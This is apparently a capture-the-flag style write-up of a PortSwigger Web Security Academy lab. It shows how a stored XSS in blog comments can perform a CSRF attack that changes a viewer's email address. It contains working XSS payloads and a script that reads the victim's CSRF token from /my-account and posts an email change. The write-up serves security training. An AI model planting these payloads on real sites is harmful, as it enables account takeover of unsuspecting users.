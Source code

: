 
# Exploiting XSS to perform CSRF

This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter

Learning path: If you're following our suggested learning path, please note that this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/cross-site-scripting/exploiting

- https://portswigger.net/blog/exploiting-xss-in-post-requests

- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/send


![img](images/Exploiting%20XSS%20to%20perform%20CSRF/1.png)

---------------------------------------------


There is a function to update the email:



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/2.png)

It is a POST message:



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/3.png)


There is a function to post comments:



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/4.png)


These payload work:

```
</p><img src=x onerror=alert(1) /><p>
<script>alert(1)</script>
```



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/5.png)


We use this payload (similar to the one in https://portswigger.net/blog/exploiting-xss-in-post-requests):

```
<form name=TheForm action=https://0a8100660449e28b80a50877005400f4.web-security-academy.net/my-account/change-email method=post>
<input type=hidden name="csrf" value="wV6Kw7g2mIv6JLKjoQjmb3Nd6BhhXbmg">
<input type=hidden name="email" value="test7@test.com">
</form>
<script>
document.TheForm.submit();
</script>
```


When accessing the page, it creates a POST message:



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/6.png)


And the email of my user changes to test7@test.com:



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/7.png)


It is not working because we are using a hardcoded value for the CSRF token. We can take the value from the hidden value “csrf” of the page:



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/8.png)


The csrf element uses the name so we can grab the content with:

```
document.getElementsByName('csrf')[0].value
```

However, if we do this we can not create a form with a csrf tag like we did before. But we can grab the CSRF token from "/my-account" and use a regular expression to get the content and set the value of the csrf element in the created form, and the submit the form:

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var csrf_token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
  console.log(csrf_token);
  var xhr = new XMLHttpRequest();
  xhr.open("POST", '/my-account/change-email', true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.onreadystatechange = () => { 
    if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
    }
  }
  xhr.send("email=test12@test.com&csrf="+csrf_token);
};
</script>
```

![img](images/Exploiting%20XSS%20to%20perform%20CSRF/9.png)
![img](images/Exploiting%20XSS%20to%20perform%20CSRF/10.png)